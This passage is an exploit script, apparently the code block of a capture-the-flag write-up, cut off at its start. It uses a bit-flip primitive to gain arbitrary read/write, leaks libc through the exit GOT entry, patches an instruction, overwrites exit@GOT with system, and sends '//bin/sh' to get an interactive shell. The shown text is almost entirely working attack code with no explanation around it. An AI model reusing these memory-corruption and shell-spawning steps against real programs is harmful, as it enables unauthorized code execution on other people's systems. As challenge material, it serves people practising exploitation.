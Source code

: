 ```python
                bit_modify(base + byte, bit)

print('Permitting infinite read/write...')
bit_modify(0x4015e9, 2)

print('Leaking libc...')
exit_got = bytearray()
for i in range(8):
    exit_got += read(0x403fe8 + i)
exit_got = u64(exit_got)
print('\texit address:', hex(exit_got))

libc.address = exit_got - libc.sym.exit
print('\tlibc leaked:', hex(libc.address))
system_got = libc.sym.system
print('\tsystem address:', hex(system_got))

print('Modifying MOV EDI, 0x1 instruction')
string_modify(0x401552, b"\xbf\x01\x00\x00\x00", b"\x48\x89\xd7\x90\x90")
print('Modifying exit@GOT address')
string_modify(0x403fe8, exit_got.to_bytes(8, 'little'), system_got.to_bytes(8, 'little'))

print('Getting shell...')
p.recvuntil(b'through:\n')
p.sendline(b'0x47')
p.recvuntil(b'flip:\n')
p.sendline(b'//bin/sh\x00')

p.interactive()
``` 
{% endcode %}